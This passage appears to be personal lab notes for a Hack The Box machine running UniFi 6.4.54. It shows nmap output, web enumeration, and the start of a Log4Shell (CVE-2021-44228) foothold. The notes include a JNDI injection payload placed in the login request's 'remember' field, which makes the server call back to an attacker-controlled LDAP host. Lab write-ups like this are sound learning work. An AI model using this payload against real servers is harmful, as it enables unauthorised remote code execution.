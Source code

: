 ```bash
Completed NSE at 19:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 158.01 seconds

```
---
### WEBSITE ENUM
---
Navigate to http://10.129.61.224:8080 on firefox.

Redirected to 

```
https://10.129.61.224:8443/manage/account/login?redirect=%2Fmanage
```

See Uniif login page

![[Pasted image 20220929062258.png]]

Google 
```
UniFy 6.4.54 exploit
```

Find [Another Log4j on the fire: Unifi](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)

It discuses [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Additional resource [What’s Going on With Log4j?](https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation)

Open [BurpSuite](obsidian://open?vault=OSCP&file=TOOLS%2FBurp%20Suite%2FHow-to) and try out FoxProxy plugin.

Enable proxy and wait for results

---
## Foothold
---
Login into site with test:test to capture POST
>![[Pasted image 20220929063923.png]]

We input the payload into the remember field as shown above so that we can identify an injection point if  one exists. If the request causes the server to connect back to us, then we have verified that the application is vulnerable.

```bash
"remember":"${jndi:ldap://10.10.15.149/whatever}",
```

>**JNDI** is the acronym for the **Java Naming and Directory Interface API** . By making calls to this API,  applications locate resources and other program objects. A resource is a program object that provides  connections to systems, such as database servers and messaging systems.  
